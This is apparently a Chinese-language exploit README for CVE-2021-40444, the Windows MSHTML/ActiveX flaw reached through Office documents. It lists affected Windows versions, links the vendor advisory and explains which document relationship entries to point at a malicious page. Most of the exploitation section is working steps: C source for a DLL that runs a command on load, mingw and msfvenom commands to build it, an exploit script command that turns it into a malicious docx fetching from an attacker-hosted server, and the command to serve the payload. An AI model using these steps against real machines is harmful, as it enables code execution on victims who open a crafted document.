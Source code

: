 ### CVE-2021-40444

#### 描述

这个漏洞是IE浏览器的漏洞，但是offer相关组件默认使用的是IE浏览器，所以在offer相关组件禁用了ActiveX也一样可以执行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/ARM64    | 1809    |        |          |
| Windows 10          | x86/x64/ARM64    | 1909    |        |          |
| Windows 10          | x86/x64/ARM64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/ARM64    | 20H2    |        |          |
| Windows 10          | x86/x64/ARM64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### 利用原理

根据之前在野利用样本`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

可以知道，其实就是利用默认浏览器（IE）加载ActiveX

![image-20210911112944428](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

本质上恶意利用只需要修改样本中的`document.xml.rels`文件中框起来mhtml和x-usc这两段内容该为恶意目标网页，即可达到利用

#### 利用方式

首先需要生成一个恶意的DLL文件，通过msf或者自己编译都行

- 自己编译

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  然后运行命令

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- 通过msf编译

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> 最好使用MSF生成DLL文件！
>
> 还有请看准对应机器，有些Windows 10 版本不存在该问题

安装环境所需要的依赖`sudo apt-get install lcab`，生成 cab用的

接着使用一键化脚本，`test/calc.dll`这个为你生成的哪个dll所在的绝对路径，`http://you_ip`你启动exp这台机器的IP

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

然后启动http服务

```
cd srv ; python3 -m http.server 80
```

接着把生成的恶意docx文件（在`out/`文件夹中），放到目标机器上（Windows 10 2004 x64），即可执行成功

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### 参考项目

- [prcabral](https://github.com/prcabral/CVE-2021-40444)